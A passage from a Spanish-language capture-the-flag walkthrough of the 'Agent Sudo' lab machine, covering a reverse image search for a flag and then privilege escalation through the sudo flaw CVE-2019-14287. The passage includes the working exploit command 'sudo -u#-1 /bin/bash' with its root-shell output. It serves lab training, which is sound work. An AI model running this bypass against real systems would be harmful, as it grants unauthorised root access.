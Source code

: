 Ahora es el momento de realizar una búsqueda inversa de imágenes en https://images.google.com/. 

1. Haz clic en el icono de la cámara que se encuentra en la barra de búsqueda de Google Images.
2. A continuación, selecciona la opción "Subir una imagen" y elige la imagen que compartiste desde la máquina atacante.
3. Espera a que Google realice la búsqueda inversa de la imagen.
4. Examina los resultados y verifica si encuentras alguna coincidencia o información relevante sobre el nombre del incidente asociado a la imagen.

![alien](alien.png)

Encontramos información relevante en el sitio web de [foxnews.com](http://foxnews.com/), donde se indica que el incidente se llama "**Roswell alien autopsy**".

## Escalación de privilegios

En nuestro objetivo de escalar a privilegios de **root**, iniciamos listando los binarios que podemos ejecutar con permisos **SUDO**.

```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$
```

Obtenemos la salida `(ALL, !root) /bin/bash` al ejecutar el comando `sudo -l`, que significa que todos los usuarios excepto el usuario **root** pueden usar `/bin/bash`.

Al realizar una búsqueda en Google, se revela una página en **exploitdb** con referencia al **CVE-2019-14287**. 

Puedes encontrar más información sobre esta vulnerabilidad en el enlace proporcionado: [sudo 1.8.27 - Security Bypass - Linux local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/47502)

En resumen, la vulnerabilidad **CVE-2019-14287** es un error en **Sudo** que permite a un usuario con privilegios sudo ejecutar comandos como **root** incluso si la política de seguridad lo prohíbe. Esto se debe a que **Sudo** no verifica correctamente el ID de usuario cuando se usa el signo menos (`-`) para indicar el usuario objetivo.

Entonces, el atacante puede usar un ID de usuario negativo para invocar **sudo** con el usuario **root**. Por ejemplo `u#-1` devuelve 0 que es el id de **root**:

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

Al ejecutar el comando anterior, obtendremos acceso como usuario **root** y finalmente ingresaremos al directorio `/root` para leer la última flag.
